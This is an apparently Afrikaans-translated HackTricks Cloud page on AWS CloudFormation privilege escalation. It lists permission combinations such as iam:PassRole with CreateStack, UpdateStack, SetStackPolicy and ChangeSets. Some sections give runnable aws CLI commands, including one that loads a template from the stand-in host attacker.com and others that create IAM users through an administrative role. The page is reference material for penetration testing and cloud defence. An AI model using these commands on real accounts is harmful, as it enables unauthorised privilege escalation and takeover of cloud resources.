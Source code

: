 # AWS - Cloudformation Privesc

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**offisiële PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## cloudformation

Vir meer inligting oor cloudformation, kyk:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

'n Aanvaller met hierdie toestemmings **kan voorregte verhoog** deur 'n **CloudFormation-stapel** met 'n aangepaste sjabloon te skep, wat op hul bediener gehuisves is, om **aksies uit te voer onder die toestemmings van 'n gespesifiseerde rol:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
In die volgende bladsy het jy 'n **uitbuiting voorbeeld** met die bykomende toestemming **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potensiële Impak:** Privesc na die gespesifiseerde cloudformation-diensrol.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In hierdie geval kan jy 'n bestaande cloudformation-stapel **misbruik** om dit te opdateer en voorregte te verhoog soos in die vorige scenario:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om jouself `UpdateStack` toestemming te gee oor 'n stapel en die aanval uit te voer.

**Potensiële Impak:** Privesc na die gespesifiseerde cloudformation-diensrol.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

As jy hierdie toestemming het, maar **geen `iam:PassRole`** nie, kan jy steeds die gebruikte stapels **opdateer** en die **IAM-rolle wat reeds aangeheg is** misbruik. Kyk na die vorige afdeling vir 'n voorbeeld van 'n aanval (moenie enige rol in die opdateering aandui nie).

Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om jouself `UpdateStack` toestemming te gee oor 'n stapel en die aanval uit te voer.

**Potensiële Impak:** Privesc na die reeds aangehegde cloudformation-diensrol.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

'n Aanvaller met toestemmings om **'n rol oor te dra en 'n ChangeSet te skep en uit te voer** kan 'n nuwe cloudformation-stapel **skep/opdateer en die cloudformation-diensrolle misbruik**, net soos met die CreateStack of UpdateStack.

Die volgende aanval is 'n **variasie van die**[ **CreateStack een**](./#iam-passrole-cloudformation-createstack) wat die **ChangeSet-toestemmings** gebruik om 'n stapel te skep.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om jouself `ChangeSet` toestemmings oor 'n stapel te gee en die aanval uit te voer.

**Potensiële Impak:** Privesc na cloudformation-diensrolle.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Dit is soos die vorige metode sonder om **IAM-rolle** oor te dra, so jy kan net **reeds gehegte rolle misbruik**, verander net die parameter:
```
--change-set-type UPDATE
```
**Potensiële Impak:** Privesc na die cloudformation-diensrol wat reeds geheg is.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

'n Aanvaller kan hierdie toestemmings misbruik om StackSets te skep/opdateer om willekeurige cloudformation-rolle te misbruik.

**Potensiële Impak:** Privesc na cloudformation-diensrolle.

### `cloudformation:UpdateStackSet`

'n Aanvaller kan hierdie toestemming misbruik sonder die passRole-toestemming om StackSets op te dateer om die gehegde cloudformation-rolle te misbruik.

**Potensiële Impak:** Privesc na die gehegde cloudformation-rolle.

## Verwysings

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
